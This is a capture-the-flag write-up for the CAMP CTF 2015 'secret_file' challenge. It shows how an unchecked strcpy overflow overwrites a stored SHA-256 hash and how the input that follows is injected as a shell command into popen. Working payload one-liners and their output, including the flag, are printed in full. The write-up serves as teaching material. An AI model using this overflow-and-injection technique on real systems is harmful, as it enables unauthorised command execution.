



# CAMP CTF 2015: secret_file-150

**Category:** Pwn
**Points:** 150
**Solves:** 57
**Description:**

> You have to recover some data from `challs.campctf.ccc.ac:10105`.
>
> Binary: [secret_file](secret_file)

## Write-up

by [polym](https://github.com/abpolym)

* <https://nuc13us.wordpress.com/2015/08/16/secret_file-150-cscamp-ctf-2015/>  (Common understanding)
* <https://ctf-team.vulnhub.com/campctf-2015-secret-file/> (Detailed understanding)
* [Russian](http://reu.org.ua/camp-ctf-2015-secret-file.html) (IDA Decompiled Source, CTX struct)
* [Japanese](http://charo-it.hatenablog.jp/entry/2015/08/18/153828) (Handmade? Decompile Source)

### Meta

* Check Evasion `ce`
* Command Injection `ci`
* Stack Buffer Overflow `sbo`

We are given a x86-64bit stripped ELF for Linux:

```bash
$ file secret_file 
secret_file: ELF 64-bit LSB  shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=700ac7785d436db2bbb5642f99678fe1ef0394b8, stripped
```

Running it:

```bash
$ ./secret_file 
hello?
wrong password!
```

It seems to ask for a password, which we don't have.

I've set up an `ltrace` alias `lt() { [[ $# -eq 1 ]] && ltrace -s 256 -f "$1" 2> /tmp/out; }` that dumps all output to `/tmp/out`, which i can then continually watch with `tail -f /tmp/out`.

Running `lt` on it results in this output:

```bash
$ lt ./secret_file 
hello
wrong password!
$ tail -f /tmp/out 
[pid 4200] __libc_start_main(0x7f1a6d4d8af0, 1, 0x7ffff3024f98, 0x7f1a6d4d8f90 <unfinished ...>
[pid 4200] snprintf("/bin/cat ./secret_data.asc", 27, "%s", "/bin/cat ./secret_data.asc")                     = 26
[pid 4200] snprintf("9387a00e31e413c55af9c08c69cd119ab4685ef3bc8bcbe1cf82161119457127", 65, "%s", "9387a00e31e413c55af9c08c69cd119ab4685ef3bc8bcbe1cf82161119457127") = 64
[pid 4200] getline(0x7ffff3024bb8, 0x7ffff3024bb0, 0x7f1a6ced2640, 64)                                        = 6
[pid 4200] strrchr("hello\n", '\n')                                                                           = "\n"
[pid 4200] strcpy(0x7ffff3024bc0, "hello")                                                                    = 0x7ffff3024bc0
[pid 4200] SHA256_Init(0x7ffff3024b00, 0x7ffff3024d1c, 256, 0x7f1a6f602010)                                   = 1
[pid 4200] SHA256_Update(0x7ffff3024b00, 0x7ffff3024bc0, 256, 0)                                              = 1
[pid 4200] SHA256_Final(0x7ffff3024d1c, 0x7ffff3024b00, 0x264bca26, 0xc0bff47e)                               = 1
[pid 4200] snprintf("8c", 3, "%02x", 0x8c)                                                                    = 2
[pid 4200] snprintf("3e", 3, "%02x", 0x3e)                                                                    = 2
[pid 4200] snprintf("ac", 3, "%02x", 0xac)                                                                    = 2
[pid 4200] snprintf("b1", 3, "%02x", 0xb1)                                                                    = 2
[pid 4200] snprintf("52", 3, "%02x", 0x52)                                                                    = 2
[pid 4200] snprintf("1d", 3, "%02x", 0x1d)                                                                    = 2
[pid 4200] snprintf("fa", 3, "%02x", 0xfa)                                                                    = 2
[pid 4200] snprintf("0b", 3, "%02x", 0xb)                                                                     = 2
[pid 4200] snprintf("1d", 3, "%02x", 0x1d)                                                                    = 2
[pid 4200] snprintf("00", 3, "%02x", 0)                                                                       = 2
[pid 4200] snprintf("07", 3, "%02x", 0x7)                                                                     = 2
[pid 4200] snprintf("77", 3, "%02x", 0x77)                                                                    = 2
[pid 4200] snprintf("ee", 3, "%02x", 0xee)                                                                    = 2
[pid 4200] snprintf("c1", 3, "%02x", 0xc1)                                                                    = 2
[pid 4200] snprintf("fe", 3, "%02x", 0xfe)                                                                    = 2
[pid 4200] snprintf("7e", 3, "%02x", 0x7e)                                                                    = 2
[pid 4200] snprintf("7b", 3, "%02x", 0x7b)                                                                    = 2
[pid 4200] snprintf("90", 3, "%02x", 0x90)                                                                    = 2
[pid 4200] snprintf("b5", 3, "%02x", 0xb5)                                                                    = 2
[pid 4200] snprintf("a6", 3, "%02x", 0xa6)                                                                    = 2
[pid 4200] snprintf("08", 3, "%02x", 0x8)                                                                     = 2
[pid 4200] snprintf("e8", 3, "%02x", 0xe8)                                                                    = 2
[pid 4200] snprintf("13", 3, "%02x", 0x13)                                                                    = 2
[pid 4200] snprintf("37", 3, "%02x", 0x37)                                                                    = 2
[pid 4200] snprintf("e0", 3, "%02x", 0xe0)                                                                    = 2
[pid 4200] snprintf("22", 3, "%02x", 0x22)                                                                    = 2
[pid 4200] snprintf("26", 3, "%02x", 0x26)                                                                    = 2
[pid 4200] snprintf("96", 3, "%02x", 0x96)                                                                    = 2
[pid 4200] snprintf("c6", 3, "%02x", 0xc6)                                                                    = 2
[pid 4200] snprintf("d4", 3, "%02x", 0xd4)                                                                    = 2
[pid 4200] snprintf("7d", 3, "%02x", 0x7d)                                                                    = 2
[pid 4200] snprintf("48", 3, "%02x", 0x48)                                                                    = 2
[pid 4200] strcmp("9387a00e31e413c55af9c08c69cd119ab4685ef3bc8bcbe1cf82161119457127", "8c3eacb1521dfa0b1d000777eec1fe7e7b90b5a608e81337e0222696c6d47d48") = 1
[pid 4200] puts("wrong password!")                                                                            = 16
[pid 4200] __cxa_finalize(0x7f1a6d6da008, 0, 0, 1)                                                            = 0x7f1a6ced3290
[pid 4200] +++ exited (status 1) +++
```

We see the following:

* Using `snprintf`, the string `/bin/cat ./secret_data.asc` (`4th` argument) with length `27` (`2nd` argument) is put into a buffer (`1st` argument)
* Using `snprintf`, some hash `9387a00e31e413c55af9c08c69cd119ab4685ef3bc8bcbe1cf82161119457127` is put into another bufer
* The program then calls `getline`, presumably to get out input and then runs `strrchr` to locate the `newline` in our string, copying the input until the first `\n` to a stack buffer at `0x7ffff3024bc0` with `strcpy`.
* `256` bytes of our input then is used to form a [sha256](https://www.openssl.org/docs/manmaster/crypto/sha.html) message digest with `SHA256_Init` initializing a `SHA_CTX` struct at `0x7ffff3024b00`, `SHA256_Update` hashing the data at `0x7ffff3024bc0` with length `256` and `SHA256_Final` erasing the `SHA_CTX` struct while storing the message digest to `0x7ffff3024d1c`. (see `man 3 sha`) 
* `snprintf` is then called, printing a byte value into a buffer presumably from our message digest with the format `%02x`.
* Finally, `strcmp` compares both the initially loaded message digest with out input's message digest

Our goal seems to be to surpass this `strcmp` test. If you have a look at [this](http://charo-it.hatenablog.jp/entry/2015/08/18/153828) or [this writeup](http://reu.org.ua/camp-ctf-2015-secret-file.html) you can see some pseudo C code that confirms that suspicion.

We notice that `strcpy` is called on our input without any preceding length check - this is a Stack Buffer Overflow!

Providing the binary with `0x400` `A`s:

```bash
$ p -c 'print "A"*0x200' | ltrace -f ./secret_file 2>/tmp/out
$ tail -f /tmp/out
[...]
[pid 4436] getline(0x7fff2bbd5c18, 0x7fff2bbd5c10, 0x7fcf451c1640, 64)                                        = 513
[pid 4436] strrchr("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., '\n')                                               = "\n"
[pid 4436] strcpy(0x7fff2bbd5c20, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                                      = 0x7fff2bbd5c20
[pid 4436] SHA256_Init(0x7fff2bbd5b60, 0x7fff2bbd5d7c, 256, 0x7fcf45b46210)                                   = 1
[pid 4436] SHA256_Update(0x7fff2bbd5b60, 0x7fff2bbd5c20, 256, 0)                                              = 1
[pid 4436] SHA256_Final(0x7fff2bbd5d7c, 0x7fff2bbd5b60, 0xb9d5c97a, 0x2e523471)                               = 1
[pid 4436] snprintf("e0", 3, "%02x", 0xe0)                                                                    = 2
[...]
[pid 4436] snprintf("bb", 3, "%02x", 0xbb)                                                                    = 2
[pid 4436] strcmp("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., "e075f2f51cad23d0537186cfcd50f911"...)               = -36
[...]
```

It looks like it overwrites the value of the initial message digest and compares with our inputs message digest - which is a hash over 256 `A`s:

```bash
$ p -c 'import sys; sys.stdout.write("A"*0x100)' |sha256sum 
e075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb  -
```

After some testing, we see that the initial message digest can be overwritten starting at the `0x11b`th byte, or `0x100+0x1b`==`256+27`th byte:

```bash
$ p -c 'print "A"*0x100+"B"*0x1B+"test"' | ltrace -f ./secret_file 2>/tmp/out
wrong password!
$ tail -f /tmp/out
[...]
[pid 4451] snprintf("bb", 3, "%02x", 0xbb)                                                                    = 2
[pid 4451] strcmp("test", "e075f2f51cad23d0537186cfcd50f911"...)                                              = 15
[pid 4451] puts("wrong password!")                                                                            = 16
```

Let's provide it with the correct hash and see what it does:

```bash
$ p -c 'print "A"*0x100+"B"*0x1B+"e075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb"' | ./secret_file 
sh: 1: BBBBBBBBBBBBBBBBBBBBBBBBBBBe075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb: not found
```

Looks suspicious and smells like Command Injection!

If we have a look at `radare2`'s graph by doing this:

* Open `r2 ./secret_file`
* Execute `aa`: `[0x00000ca0]> aa`
* Enter `V`isual mode by pressing `V`, then `p` to go into assembly view:

* Go to the `main` function (Just press once `N`):

* Press `V` again

Then we can see a `popen` call being executed, if `strmp` is successful (see the red line with path name `f`alse, leading to the branch if `jne eax eax` after `strmp` is not true?):



So this suggests, that `popen` is called on the part of our input after the newline `\n` - which is why we get an error message from `sh` telling us that the command `BBBBBBBBBBBBBBBBBBBBBBBBBBBe075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb` doesn't exist.

So we try to inject a valid command and seperate the valid command with the invalid command by adding a `;` after our valid command:

```bash
$ p -c 'print "A"*0x100+"ls;".ljust(0x1B,"B")+"e075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb"' | ./secret_file 
flag.txt
secret_data.asc
secret_file
sh: 1: BBBBBBBBBBBBBBBBBBBBBBBBe075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb: not found
```

Let's see what is in both `flag.txt` and `secret_data.asc`:

```bash
$ p -c 'print "A"*0x100+"cat secret_data.asc;".ljust(0x1B,"B")+"e075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb"' | ./secret_file                                
You do not really think it's that easy, do you?
sh: 1: BBBBBBBe075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb: not found
$ p -c 'print "A"*0x100+"cat flag.txt;".ljust(0x1B,"B")+"e075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb"' | ./secret_file
CAMP15_82da7965eb0a3ee1fb4d5d0d8804cc409ad04a4f5e06be2f2bbdbf1c0cd638a7
sh: 1: BBBBBBBBBBBBBBe075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb: not found
```

We see our flag, `CAMP15_82da7965eb0a3ee1fb4d5d0d8804cc409ad04a4f5e06be2f2bbdbf1c0cd638a7`!

PS: We at first cannot set breakpoints and debug the file properly using `gdb`, since `PIE` is enabled:
```bash
gdb-peda$ checksec 
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

However, if you run the binary in `gdb` and then have a look at the by gdb started process `./secret_file` with `vmmap` or `pmap` using its `PID`, you can set breakpoints and run the program with the correct base.

```bash
$ pmap 4555
4555:   /home/vbox/pwn/tasks/camp/secret-file/secret_file
0000555555554000      8K r-x-- secret_file
0000555555755000      4K r---- secret_file
0000555555756000      4K rw--- secret_file
0000555555757000    132K rw---   [ anon ]
00007ffff7436000     12K r-x-- libdl-2.19.so
gdb-peda$ b *0x0000555555554000+0xaf0
Breakpoint 1 at 0x555555554af0
gdb-peda$ r
Starting program: /home/vbox/pwn/tasks/camp/secret-file/secret_file 
[----------------------------------registers-----------------------------------]
RAX: 0x555555554af0 (push   r13)
RBX: 0x0 
RCX: 0x0 
RDX: 0x7fffffffe508 --> 0x7fffffffe796 ("LC_PAPER=de_DE.UTF-8")
RSI: 0x7fffffffe4f8 --> 0x7fffffffe764 ("/home/vbox/pwn/tasks/camp/secret-file/secret_file")
RDI: 0x1 
RBP: 0x0 
RSP: 0x7fffffffe418 --> 0x7ffff765bec5 (<__libc_start_main+245>:        mov    edi,eax)
RIP: 0x555555554af0 (push   r13)
R8 : 0x7ffff79f9e80 --> 0x0 
R9 : 0x7ffff7dea560 (<_dl_fini>:        push   rbp)
R10: 0x478bfbff 
R11: 0x5 
R12: 0x555555554ca0 (xor    ebp,ebp)
R13: 0x7fffffffe4f0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x555555554ae0 <__cxa_finalize@plt>: jmp    QWORD PTR [rip+0x2014e2]        # 0x555555755fc8
   0x555555554ae6 <__cxa_finalize@plt+6>:       push   0x10
   0x555555554aeb <__cxa_finalize@plt+11>:      jmp    0x5555555549d0
=> 0x555555554af0:      push   r13
   0x555555554af2:      push   r12
   0x555555554af4:      push   rbp
   0x555555554af5:      push   rbx
   0x555555554af6:      sub    rsp,0x2e8
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe418 --> 0x7ffff765bec5 (<__libc_start_main+245>:       mov    edi,eax)
0008| 0x7fffffffe420 --> 0x7fffffffe508 --> 0x7fffffffe796 ("LC_PAPER=de_DE.UTF-8")
0016| 0x7fffffffe428 --> 0x7fffffffe4f8 --> 0x7fffffffe764 ("/home/vbox/pwn/tasks/camp/secret-file/secret_file")
0024| 0x7fffffffe430 --> 0x100000000 
0032| 0x7fffffffe438 --> 0x555555554af0 (push   r13)
0040| 0x7fffffffe440 --> 0x0 
0048| 0x7fffffffe448 --> 0x35bb7410a37bb082 
0056| 0x7fffffffe450 --> 0x555555554ca0 (xor    ebp,ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000555555554af0 in ?? ()
```

Otherwise, just set a breakpoint at `__libc_start_main` or even use [this neat trick](http://reverseengineering.stackexchange.com/questions/8724/set-a-breakpoint-on-gdb-entry-point-for-stripped-pie-binaries-without-disabling)!

```
gdb-peda$ b *__libc_start_main
Breakpoint 1 at 0x7ffff765bdd0: file libc-start.c, line 133.
```

PS: Some commercial IDA Plugin named Hex-Rays Decompiler can decompile `x86_64` into good looking pseudo C code, such as done in [this writeup](http://reu.org.ua/camp-ctf-2015-secret-file.html). There exist [some decompilers](https://en.wikibooks.org/wiki/X86_Disassembly/Disassemblers_and_Decompilers#Common_Decompilers) for `x86`, but only some can decompile for `x86_64` and only few do in fact print readable C code. I tried some of these decompilers, but none of these, which I've tested and do state that they decompile 64bit binaries, can in fact compete with the Plugin. If you know a good 64bit decompiler, please create an issue, notifying me!


## Other write-ups and resources

* <https://nuc13us.wordpress.com/2015/08/16/secret_file-150-cscamp-ctf-2015/> 
* <https://ctf-team.vulnhub.com/campctf-2015-secret-file/>
* [Russian](http://reu.org.ua/camp-ctf-2015-secret-file.html)
* [Japanese](http://charo-it.hatenablog.jp/entry/2015/08/18/153828)
